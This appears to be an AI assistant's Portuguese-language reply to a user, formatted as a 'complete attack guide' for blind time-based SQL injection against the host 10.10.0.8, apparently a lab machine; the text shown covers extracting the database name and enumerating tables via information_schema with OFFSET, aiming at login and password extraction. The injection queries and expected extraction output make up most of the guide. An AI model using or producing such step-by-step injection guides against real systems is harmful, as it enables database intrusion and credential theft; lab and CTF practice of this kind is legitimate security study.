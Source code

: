 SQL Injection Blind Time-Based


Perfeito, Rafael! Vamos refazer **todo o passo a passo, bem organizado**, desde o início até a extração final de **login e senha**, incluindo explicação sobre como e por que mudar o `OFFSET`. Vou formatar como um guia de ataque completo com Blind SQLi via `time-based`.

---
python3 blind_sqli_extractor_v2.py
# 🛠️ Blind SQLi Time-Based – Guia Completo para Descobrir Login e Senha

### 📍 Alvo: `http://10.10.0.8`

### 🧪 Técnica: `UNION SELECT + IF(SLEEP())` via POST

---

## ✅ 1. Descobrir o nome do banco de dados

### Configuração no script:

```python
sql_target = "(SELECT database())"
```

### Resultado esperado no terminal:

```text
[+] Progresso: c
[+] Progresso: cc
[!] Resultado final: cc
```

O script para sozinho quando não encontra mais caracteres.  
Se demorar muito e já tiver certeza do resultado, pode parar com `Ctrl+C`.

---

## ✅ 2. Descobrir nomes das tabelas

### Agora usamos:

```python
sql_target = "(SELECT table_name FROM information_schema.tables WHERE table_schema='cc' LIMIT 1 OFFSET 0)"
```

🌀 Troque o valor de `OFFSET` para ver as outras tabelas:

|Tentativa|OFFSET|Descobre:|
|---|---|---|
|1|0|Primeira tabela|
|2|1|Segunda tabela|
|3|2|Terceira tabela|
|...|...|...|
